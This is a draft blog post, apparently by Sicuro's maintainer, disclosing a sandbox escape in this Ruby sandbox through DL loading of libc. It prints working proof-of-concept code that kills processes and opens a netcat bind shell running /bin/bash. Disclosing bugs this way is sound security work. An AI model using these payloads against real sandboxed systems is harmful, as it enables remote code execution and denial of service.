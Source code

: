 ```yaml
---
title: Untrusted Code Execution Bug in Sicuro
tags: sicuro security bug untrusted code execution
layout: post
draft: true
---
```


[Jens Nockert](http://twitter.com/jensnockert) has exposed a rather major security hole in Sicuro.

Under basically any circumstances, Sicuro can be used to execute untrusted code. The demonstrated technique used by Jens was to terminate all processes that can be terminated by the user who the initial `Sicuro#eval` call was made under. I have demonstrated the ability to use it to access a remote shell, but am unsure if it could be used for privilege escalation.

# The main problem

It appears that attempts at making Sicuro more efficient have actually left it wide open to abuse. There was an attempt to make it lazily load trusted components, and that seems to have opened up a bug letting you `require` anything in the stdlib, including DL. DL is used for loading shared objects and calling functions in them.

The following is the relevant part of the code for lazily loading trusted components. You can view it in context in [lib/sicuro/base.rb](https://github.com/duckinator/sicuro/blob/761e955fbbba07638d69bc62159199cdf0716a7d/lib/sicuro/base.rb#L254-256), lines 254 through 256.

    # Without Gem we won't require unresolved gems, therefore we restore the original require.
    # This allows us to lazy-require other trusted components from the same $LOAD_PATH.
    ::Kernel.module_eval { alias require gem_original_require }

Following is a tidied up version of the code that exposed the bug.

    require 'dl'
    require 'dl/import'
    
    module Libc
      extend DL::Importer
      dlload '/lib/libc.so.6'
      extern 'int kill(int, int)'
    end
    
    Libc.kill(0, 9)

Calling `Libc.kill(-1, 9)` will terminate _all processes the user who called `Sicuro.eval` can terminate._

Here is similar code that will allow you to execute arbitrary shell code:

    require 'dl'
    require 'dl/import'
    
    module Libc
       extend DL::Importer
       dlload '/lib/libc.so.6'
       extern 'int system(const char*)'
    end
    
    Libc.system('nc -lp 1337 -e /bin/bash &amp;')

Congratulations, you now can run `netcat $IP 1337` to connect.

There's a video at the bottom, but odds are it's entirely unintelligible, so you can [go directly to the video](/assets/sicuro-untrusted-code-execution-bug.ogv).

It may also be possible to escalate privileges using this.

# The small problem

There's always something hiding, right? That little thing you find when hunting another bug. This one happened to be that `GC`, `Signal`, and `ObjectSpace` were whitelisted. This isn't exactly good.

At the very least, `GC.disable` could make it use too much memory, causing instability, and `Signal.trap` could be used to handle signals used to terminate the process &ndash; and ignore them. I'm not entirely sure what `ObjectSpace` can be used for, but I do not know what it does, so I do not like it being whitelisted. I've also been told `ObjectSpace` is "dangerous." I may look into this later.

`GC`, `Signal`, and `ObjectSpace` will not be whitelisted as of the next version.

# Conclusion

While removing things from the whitelist was trivial, it appears fixing the code execution problem is proving immensely difficult. I am not sure I will be able to do it and retain all current functionality.

I highly recommend that, once the next version is released, everyone upgrade immediately. This is a major security hole, and allows execution of any untrusted code that can be done through a shared library. This includes calls to `system()` and related functions, as mentioned above.

<video style="width: 100%; max-width: 798px;" controls="controls" src="/assets/sicuro-untrusted-code-execution-bug.ogv"></video>
